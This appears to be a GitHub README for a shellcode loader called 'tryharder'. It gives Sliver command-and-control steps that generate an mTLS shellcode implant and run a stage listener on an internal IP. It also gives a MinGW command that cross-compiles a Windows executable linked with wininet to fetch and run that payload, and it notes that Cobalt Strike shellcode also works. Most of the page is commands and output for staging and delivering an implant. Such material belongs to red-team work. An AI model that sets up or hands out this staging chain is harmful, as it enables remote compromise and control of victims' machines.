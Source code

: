 ```bash
sliver > profiles new --mtls 192.168.45.156:443 -G --format shellcode sliver

sliver > stage-listener --url http://192.168.45.156:80 --profile sliver

sliver > mtls -L 192.168.45.156 -l 443

sliver > jobs

 ID   Name   Protocol   Port   Stage Profile                          
==== ====== ========== ====== ========================================
 4    mtls   tcp        443                                           
 5    http   tcp        80     sliver (Sliver name: DEVELOPED_BULLET) 
```

Linux compile command:
```bash
x86_64-w64-mingw32-g++ main.cpp -o tryharder.exe -lwininet -static-libgcc -static-libstdc++
```

# Note:
This was intended to be used with sliver, but you can set your infra up to feed whatever shellcode into it and it should* work.

Was able to have the loader ingest Cobalt shellcode just fine. 


## Rust Version
https://github.com/tehstoni/RustHarder
